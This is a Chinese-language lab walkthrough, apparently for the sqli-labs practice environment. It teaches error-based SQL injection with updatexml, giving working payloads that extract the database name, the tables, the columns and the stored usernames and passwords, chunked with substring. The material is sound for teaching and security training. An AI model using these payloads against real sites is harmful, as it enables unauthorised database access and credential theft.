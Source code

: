 # 确认闭合类型
到这里，当时输入?id=1'时，会发现是跟第一题一样的报错  
那么就是使用单引号闭合，但是你又会发现，就算输入对了，服务器也没有其他回显  
这时候，你就要考虑其他的sql注入  
比如 这里有报错信息，那么可以使用报错注入  
还有诸多盲注，这里先介绍报错注入  

# 构造报错注入
我们根据payload来讲  
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+

常见的报错注入函数有updatexml，extractvalue等，这里先介绍updatexml  
updatexml(1,2,3),其中1和3我们不需要用，构造的语句在2中  
updatexml的作用是修改xml的文档内容，而2中的参数就是修改文档的路径  
我们构造concat(0x7e,(select database()),0x7e)  
concat是将里面的值连成字符串其中0x7e表示~号  
这样可以保证我们需要修改的文档路径一定不存在，且又可以正常回显

这样数据库查询的报错就会被替换成XPATH的报错信息  
回显：XPATH syntax error: '~security~'

剩下的步骤也是一样了，替换里面的查询语句即可

# 查询数据库名
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+  
回显：XPATH syntax error: '~security~'

# 查询表名
?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)--+  
回显：XPATH syntax error: '~emails,referers,uagents,users~'

# 查询列名
?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e),1)--+  
回显：XPATH syntax error: '~id,username,password~'


# 查询值
注意这个时候我们查询值得时候只有一个地方可以回显，需要调整一下payload  
?id=1' and updatexml(1,concat(0x7e,(select group_concat(username,':',password) from users),0x7e),1)--+  
回显：XPATH syntax error: '~Dumb:Dumb,Angelina:I-kill-you,D'  
然后又会发现，只回显一部分，这时候可以用substring函数，对查询函数进行截取  
substring((select group_concat(username,':',password) from users),1,10)  
从查询结果的第一个字符开始截取10个字符

?id=1' and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),1,10),0x7e),1)--+  
回显：XPATH syntax error: '~Dumb:Dumb,~'

?id=1' and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),11,10),0x7e),1)--+  
回显：XPATH syntax error: '~Angelina:I~'

?id=1' and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),21,10),0x7e),1)--+  
回显：XPATH syntax error: '~-kill-you,~'

...